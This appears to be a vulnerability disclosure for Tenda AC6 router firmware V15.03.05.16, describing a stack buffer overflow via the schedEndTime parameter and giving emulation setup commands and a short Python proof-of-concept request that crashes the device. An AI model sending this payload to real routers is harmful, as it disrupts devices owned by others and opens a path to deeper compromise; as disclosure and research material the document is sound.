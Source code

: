 -------------

### Overview

*   设备官网：[https://www.tenda.com.cn](https://www.tenda.com.cn/product/AX1806.html)
*   固件下载网站： [AC6V1.0升级软件](https://www.tenda.com.cn/material/show/102661)

![](api/attachments/OLpMhoNjD8Vg/image/image.png)

### Affected version

**V15.03.05.16**

### Environmental simulation

```text-plain
apt install uml-utilities bridge-utils
brctl addbr br0
ifconfig br0 192.168.142.100/24
brctl addif br0 ens33//搭建网桥
```

Tenda AC6 **V15.03.05.16** has a stack overflow vulnerability. The vulnerability affects the file /goform/openSchedWifi function setSchedWifi. Setting the schedEndTime parameter causes a stack-based buffer overflow.

![](api/attachments/6zraflQZ105X/image/image.png)

![](api/attachments/V6yTKP4NeXX3/image/image.png)

### poc

```text-plain
import requests

url = "http://192.168.142.100/goform/openSchedWifi"

data = {
    "schedWifiEnable": "Raining101",
    "schedEndTime": "Raining" * 2000 
}

response = requests.post(url, data=data)
print(response.status_code)
print(response.text)
```

![](api/attachments/qR7BsjmYHNvY/image/image.png)
